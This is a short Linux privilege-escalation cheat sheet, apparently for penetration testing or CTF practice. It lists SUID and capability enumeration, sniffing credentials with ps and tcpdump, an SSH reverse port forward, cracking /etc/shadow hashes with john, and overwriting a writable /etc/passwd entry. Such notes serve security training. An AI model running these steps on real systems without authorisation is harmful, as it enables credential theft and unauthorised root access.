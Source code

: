 
### Kernel Exploits:
```powershell
$ uname -a
```

→ Leaks kernel details search for exploits

## Basic Checks
```
find / -writable -type d 2>/dev/null
dpkg -l #Installed applications on debian system
cat /etc/fstab #Listing mounted drives
lsblk #Listing all available drives
lsmod #Listing loaded drivers

watch -n 1 "ps -aux | grep pass" #Checking processes for credentials
sudo tcpdump -i lo -A | grep "pass" #Password sniffing using tcpdump
```

SUID:
```powershell
$ find / -perm -u=s -type f 2>/dev/null
```
Capabilities:

```powershell
$ /usr/sbin/getcap -r / 2>/dev/null
```
go to gtfobins and exploit !!

Services Exploits:
```powershell
$ ps aux | grep "^root"
```
→ Enumerate the program version:
```powershell
$ <program> --version
$ <program> -v
```
→ Debian:
```powershell
$ dpkg -l | grep <program>
```

Port Forwarding:[Linux]
```powershell
$ netstat -nl
```
→ if you found any 127.0.0.1 you can access via following command:
```powershell
$ ssh -R <local-port>:127.0.0.1:<target-port> <username>@<local-machine> 
```

Weak Permissions:
```powershell
$ ls -al /etc/shadow
```
crack using john :
```powershell
$ john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
```powershell
$ ls -al /etc/passwd
```
if writable create a new password with the openssl and replace with "x"
